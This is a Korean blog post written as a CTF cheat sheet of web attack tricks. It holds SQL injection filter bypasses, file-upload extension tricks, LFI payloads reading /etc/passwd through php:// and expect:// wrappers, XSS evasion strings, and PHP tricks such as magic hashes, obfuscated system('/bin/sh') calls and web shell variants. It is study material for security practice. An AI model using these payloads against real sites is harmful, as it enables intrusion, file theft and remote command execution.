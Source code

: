 ```yaml
---
layout: post
title: "Web trick(bypass) for CTF "
excerpt: "Try to know trick & use it ~_~"
date: 2020-11-21
categories: [Web]
comments: true 
---
```


이번에는 ctf를 위한 다양한 웹 트릭 및 우회방법들을 간단하게나마 정리를 해보려고한다. 

<h3>0x0. SQLI bypass </h3>

```
+로 우회  ex)'+or+1=1
/**/주석으로 우회 ex)'/**/or/**/1=1
#주석으로 우회 ex)'#%0aor#%0a1=1
--주석으로 우회
Tab으로 우회 ex)'%09or%091=1
Line Feed로 우회 ex)'%0aor%0a1=1
괄호로 우회 ex)(2)or(1=1)
Carrage Return으로 우회 ex)'%0dor%0d1=1
%0b,%a0,%0c ~~
' > "  ex) " or 1=1
' > \ ex) \ or 1=1 
;00으로 우회
substr > substring으로 변경 / mid로 우회
ascii >  ord나 hex , char, unhex등 이용
= > LIKE등으로 변경
load_file/*test*/(0x~~)
concat() ,alias 이용
uNiOn AlL SeLecT등의 케이스 이용
1+uni*on+sel*ect+1,3--+- 등 특수문자 이용
id=1&id=*/union/*&id=*/select/*&id=*/1,2+--+ HPP 이용
(select 0xAAAAAAAAAAAAAAAA ..... A's) bof를 이용
```



<h3>0x1. File upload bypass</h3>

```
.php > phtml. pHp, php.suspected, .php3, .htm, .php%00.png , .php/, .php.\ 
.asp > .cer, .asa, .cdx, .AsP, .asp%00.jpg
.jsp > .jsw, .jsv, .jspx, .war, .JsP, .jsp%00.png, .js%70, .%22jsp 
.htaccess변조 및 업로드 > AddHandler text/html .php .png 등등
GIF89a; 등을 이용하여 GIF로 위조
이미지 파일에 쉘코드 삽입 등등
gif to xss/csrf 등등 
파일명에 페이로드 삽입 ex) <script>alert(1)</script>.jpg
```



<h3>0x2. LFI bypass</h3>

```
php wrappers > php?page=expect://ls , php://input&cmd=ls , php://filter/convert.base64-encode/resource=/etc/passwd 
zip wrappers > php?page=zip://path/to/file.zip#sh
null byte > php?page=/etc/passwd%00 , page=/etc/passwd%2500
```



<h3>0x3. XSS bypass</h3>

```
javas%09cript:alert , param=test`-alert(1)=`def';
param=test'&&'http://naver.com';
.을 필터링 > document['cookie']
;나 + 필터링 > 'test'-alert(1)-'def'
""를 필터링 > eval[alert(1)]
native function 필터링 > alert;a(1) 
```



<h3>0x4. php trick</h3>

```
== 연산자의 느슨함을 이용한 트릭
```

| ==           | true  | false | 1     | 0     | -1    | "1"   | "0"   | "-1"  | null  | array() | array(1) | array("php") | "php" | ""    | NAN   |
| ------------ | ----- | ----- | ----- | ----- | ----- | ----- | ----- | ----- | ----- | ------- | -------- | ------------ | ----- | ----- | ----- |
| true         | true  | false | true  | false | true  | true  | false | true  | false | false   | true     | true         | true  | false | true  |
| false        | false | true  | false | true  | false | false | true  | false | true  | true    | false    | false        | false | true  | false |
| 1            | true  | false | true  | false | false | true  | false | false | false | false   | false    | false        | false | false | false |
| 0            | false | true  | false | true  | false | false | true  | false | true  | false   | false    | false        | true  | true  | false |
| -1           | true  | false | false | false | true  | false | false | true  | false | false   | false    | false        | false | false | false |
| "1"          | true  | false | true  | false | false | true  | false | false | false | false   | false    | false        | false | false | false |
| "0"          | false | true  | false | true  | false | false | true  | false | false | false   | false    | false        | false | false | false |
| "-1"         | true  | false | false | false | true  | false | false | true  | false | false   | false    | false        | false | false | false |
| null         | false | true  | false | true  | false | false | false | false | true  | true    | false    | false        | false | true  | false |
| array()      | false | true  | false | false | false | false | false | false | true  | true    | false    | false        | false | false | false |
| array(1)     | true  | false | false | false | false | false | false | false | false | false   | true     | false        | false | false | false |
| array("php") | true  | false | false | false | false | false | false | false | false | false   | false    | true         | false | false | false |
| "php"        | true  | false | false | true  | false | false | false | false | false | false   | false    | false        | true  | false | false |
| ""           | false | true  | false | true  | false | false | false | false | true  | false   | false    | false        | false | true  | false |
| NAN          | true  | false | false | false | false | false | false | false | false | false   | false    | false        | false | false | false |

```
magic hash를 이용한 트릭 > 
"0e1354" == "0e87453" // true
"0" == "0e7124511451155" //true
"0" == md5("240610708") // true
"0" == sha1("w9KASOk6Ikap") // true
md5("QLTHNDT") == md5("QNKCDZO") // true

.을 이용한 함수 호출 > "sy"."stem"('/bin/sh');
<? <?php 이외에 php 선언 > <script language='php'>
백쿼터(`)를 이용한 함수 호출 > echo `ls`;를 하면 system('ls')과 같음
17자리가 넘는 두 수를 비교하면 미세한 차이는 무시
함수를 문자열로 호출> "phpinfo();"
아파치는 다중 확장자 가능 >  webshell.php.test는 정상 작동
대괄호 없이 배열에 접근 > ${${$variables{0}}{0}}();등의 형태를 통해서 가능
strip_tags 함수의 트릭 > strip_tags("<a/udio>") >  a 태그로 인식
젠드엔진에 의한 타입 캐스팅
언더바 우회 > __main__같은걸 호출할때 .main. , %20main%20 등으로 우회 가능
system 함수 필터링 > exec(), shell_exec(), passthru() 등으로 웹쉘
parse_url등의 url을 파싱하는 함수> ssrf 등으로 연계 가능
함수들 필터링 우회 >   l$@s 등으로 우회
```

계속해서 ctf나 공부를 하면서 얻는 지식들을 정리할 예정

